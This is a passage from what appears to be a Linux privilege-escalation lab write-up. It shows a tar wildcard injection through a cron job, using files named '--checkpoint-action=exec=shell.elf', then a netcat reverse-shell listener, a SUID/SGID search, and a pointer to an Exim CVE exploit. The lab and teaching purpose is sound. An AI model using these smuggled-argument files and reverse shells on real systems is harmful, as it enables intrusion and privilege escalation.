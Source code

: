 ![image](https://user-images.githubusercontent.com/14150485/172460876-ead4222e-b8e4-4362-94bd-b99c3ff8913f.png)

After successfully downloading the file, we need to ensure it is an executable:

```
chmod +x shell.elf
```

![image](https://user-images.githubusercontent.com/14150485/172461015-016fc8cf-a4ce-4931-952b-1828c3a4d824.png)

Create the following files in the `/home/user` directory as instructed on the task:

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

The files we just created are valid `tar` informative output options, which we can also confirm using the `tar --help` command. Once the `tar` cron job runs, the wildcard `*` will include these files and since both filenames are valid `tar` options they will be recognized and treated as such, rather than filenames.

Next up we need to set up a `netcat` listener locally. Please note that the port number should be the same we used to create the `shell.elf` reverse shell.

```
nc -lvnp LOCAL_PORT
```

After a short wait the cron job runs and the listener picks up the connection to the target:

![image](https://user-images.githubusercontent.com/14150485/172463273-100f35d1-c383-41cc-9914-8c294f084f6e.png)

<br/>

### 10.1: Read and follow along with the above.

```
No answer needed
```

<br/>
<br/>

### 11: SUID / SGID Executables - Known Exploits

<br/>

Find all the SUID/SGID executables on the Debian VM:

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![image](https://user-images.githubusercontent.com/14150485/172489473-41db594a-a1ef-4879-b041-868c16edd1fa.png)

Per the instructions on the task, we should look for known exploits related to `/usr/sbin/exim-4.84-3`. Searching for `exim 4.84-3` brings up `CVE-2016-1531` on [Exploit-DB](https://www.exploit-db.com/exploits/39535). We can proceed to download the exploit, however before doing so I found it already located under the `/home/user/tools/exim/` directory of the target system:
